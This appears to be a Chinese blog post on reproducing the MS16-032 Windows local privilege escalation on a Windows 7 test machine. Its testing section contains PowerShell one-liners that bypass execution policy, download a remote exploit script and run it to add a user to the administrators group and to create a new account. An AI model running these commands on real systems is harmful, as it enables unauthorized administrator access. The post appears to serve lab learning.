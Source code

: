 ```yaml
---
title: Windows7系统MS16-032本地提权
date: 2019-08-18 14:19:08
categories: 随笔
tags: 漏洞复现
---
```

顺便再拿win7开个刀，玩玩MS16-032 windows本地提权。

## 一、exploit-db详情：
https://www.exploit-db.com/exploits/39719/
## 二、此漏洞影响从Vista到Windows 10的所有Windows版本（包括服务器版本）以及为了实现利用，因为PowerShell脚本指示需要满足以下要求：
### 1.目标系统需要有2个以上的CPU核心
### 2.PowerShell v2.0及更高版本必须正在运行
## 三、此漏洞会影响以下Microsoft产品：
Windows Vista
Windows 7
Windows 8.1
Windows 10
Windows 2008 Server
Windows 2012 Server
## 四、提权powershell脚本：
39719.ps1
## 五、测试详情：
### 1、测试机
Windows 7：test1（非管理员组）
![1](Windows7系统MS16-032本地提权/1.png)
![8](Windows7系统MS16-032本地提权/8.png)
### 2.先用powershell命令试试
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup administrators test1 /add'"

![2](Windows7系统MS16-032本地提权/2.png)
![3](Windows7系统MS16-032本地提权/3.png)
成功提权至管理员组，加个用户看看

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user test2 123456 /add'"

![7](Windows7系统MS16-032本地提权/7.png)
![9](Windows7系统MS16-032本地提权/9.png)
### 3.试试网上公开的powershell脚本
39719.ps1

![4](Windows7系统MS16-032本地提权/4.png)

不行，看看提示

![5](Windows7系统MS16-032本地提权/5.png)
![6](Windows7系统MS16-032本地提权/6.png)

无果，希望师傅们邮件或者微博留言指导一下小弟~
